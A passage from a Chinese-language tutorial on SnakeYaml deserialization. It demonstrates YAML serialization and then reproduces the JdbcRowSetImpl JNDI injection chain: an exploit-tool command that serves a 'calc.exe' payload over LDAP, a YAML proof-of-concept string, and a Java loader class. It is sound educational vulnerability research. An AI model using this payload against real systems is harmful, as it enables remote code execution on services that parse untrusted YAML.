 输出结果：

```bash
!!SnakeYaml.Person {age: 18, username: mike}
```

注：这里的!! 应该类似于一个标识符，表示对应的类名  
注：**序列化过程会触发类属性对应的 get 方法**  
**反序列化**：

```bash
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class SnakeYamlTest {
    public static void main(String[] args) {
        // 反序列化
        String str = "!!SnakeYaml.Person {age: 18, username: mike}";
        Yaml yaml = new Yaml();
        Person person = (Person) yaml.load(str);
        System.out.println(person);
    }
}
```

输出结果：

```bash
SnakeYaml.Person@48533e64
```

注：**反序列化过程会触发类属性对应的 set 方法**

## 3\. 漏洞复现与分析

### JdbcRowSetImpl 链

**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
使用工具开启 LDAP 服务

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

POC:

```bash
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}
```

测试类：

```bash
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest1 {
    public static void main(String[] args) {
        String poc = "!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
